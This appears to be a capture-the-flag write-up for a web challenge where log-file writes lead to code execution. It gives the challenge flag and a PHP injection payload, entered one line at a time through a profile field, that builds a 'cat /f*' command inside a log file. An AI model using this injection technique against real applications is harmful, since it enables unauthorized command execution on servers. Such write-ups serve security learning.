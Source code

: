 No filter, file end with `.txt`. With that, i know what i do now :v

Firstly, register a account:

![Screenshot 2025-01-12 172003](https://github.com/user-attachments/assets/0aafafd1-f161-427f-a961-a8e35781cca2)

Then login:

![Screenshot 2025-01-12 172027](https://github.com/user-attachments/assets/7e08feea-eec6-4086-ae91-e6c2af25030f)

A bunch of error here, but i just ignore these:

![Screenshot 2025-01-12 172045](https://github.com/user-attachments/assets/d2ce98ac-bee9-4817-8b42-a84a56fec591)

Refresh, then:

![Screenshot 2025-01-12 172149](https://github.com/user-attachments/assets/b774372a-d83b-4d0f-b3c8-83bfcb628645)

### Flag: 
`
VSL{l0g_t0_rc3_v5l25824}
`

### PS: Intented way :

- In `change information`, we can inject this (only 1 line 1 time):

```php=
<?=$b='';'
';$b='c';'
';$c='a';'
';$b.=$c;'
';$c='t';'
';$b.=$c;'
';$c=' ';'
';$b.=$c;'
';$c='/';'
';$b.=$c;'
';$c='f';'
';$b.=$c;'
';$c='*';'
';$b.=$c;'
';?>
<?=$b?> 
```

:::tip
Mode `a` allow newline to add in log file. Therefore, we can concat character to create a simple webshell and get flag
:::
